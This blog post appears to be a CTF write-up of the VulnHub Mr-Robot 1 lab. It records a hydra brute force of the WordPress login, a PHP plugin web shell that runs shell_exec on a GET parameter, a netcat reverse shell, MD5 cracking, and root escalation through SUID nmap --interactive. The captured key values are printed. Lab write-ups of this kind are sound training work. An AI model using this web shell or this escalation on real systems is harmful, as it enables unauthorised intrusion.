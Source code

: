 ```yaml
---
layout: post
title: Mr-Robot 1
date: 2019-09-15
author: OutHackThem
comments: true
categories: vulnhub
tags: [ctf,vulnhub]
---
```


## Mr-Robot 1

> The vulnhub page says we need to find 3 keys so lets get started

Started off with nmap and found 2 open ports

On port 80 I saw the following page I did go through all the options / commands listed but it wasn't anything just videos and pictures.

![main page]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/mrrobot/index.png)



I ran dirsearch and found robots.txt in which I manage to find key 1

`key 1 or 3`

![key1]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/mrrobot/flag1.png)


The other file `fsociety.dic` was actually a word list which I saved it for later use.


Looking at the dirsearcher results found out that the webserver was actually running wordpress. 
I used wpscan didn't find anything usefull and was stuck for a while. 

Then I thought to use the wordlist to try to bruteforce the login. Since I have watched Mr robot the first username that came in my mind was `Mr.robot` I used that as a username but didn't find anything then I use "Elliot" as a username and bruteforced the login with hydra and voila!

Elliot and the password ER28-0652!

Logged in to the dashboard of wordpress


![Dashboard]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/mrrobot/dashboard.png)




from here we can uplaod a simple plugin to get a shell


zip the following php code 

```php
<?php
/*
Plugin Name: Shell
Plugin URI: https://themctfwriteups.com/shells
Description: This hacks you 
Author: OutHackThem
Version: 1.0.0
Author URI: https://thectfwriteups.com/
*/

echo shell_exec($_GET['cmd']);
```

upload it and you get a shell using the following link 


http://TARGET_IP/wp-content/plugins/shell.php_/shell.php?e=id


![Shell]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/mrrobot/shell.png)



Then I got a reverse shell

```bash
nc -lvp 1337
listening on [any] 1337 ...
192.168.114.136: inverse host lookup failed: Unknown host
connect to [192.168.114.128] from (UNKNOWN) [192.168.114.136] 58895
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
<ps/wordpress/htdocs/wp-content/plugins/shell.php_$ cd /home
cd /home
daemon@linux:/home$ ls
ls
robot
daemon@linux:/home$ cd robot
cd robot
daemon@linux:/home/robot$ ls
ls
key-2-of-3.txt  password.raw-md5
daemon@linux:/home/robot$ ls -la
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
daemon@linux:/home/robot$ 



I cracked the password and this is what I got 

user: robot
pass: abcdefghijklmnopqrstuvwxyz


robot@linux:~$ ls  
ls
key-2-of-3.txt  password.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
robot@linux:~$ 
```

`key 2 of 3`
822c73956184f694993bede3eb39f959 



now moving on to root


Running LinEnum.sh I found the following SUID binaries


![linEnum]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/mrrobot/enum.png)

LinEnum flagged out that nmap also has SUID bit set 

```bash
robot@linux:/tmp$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# cd /root
cd /root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key-3-or-3.txt
cat key-3-or-3.txt
cat: key-3-or-3.txt: No such file or directory
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
# 
```

`key 3 or 3`
04787ddef27c3dee1ee161b21670b4e4



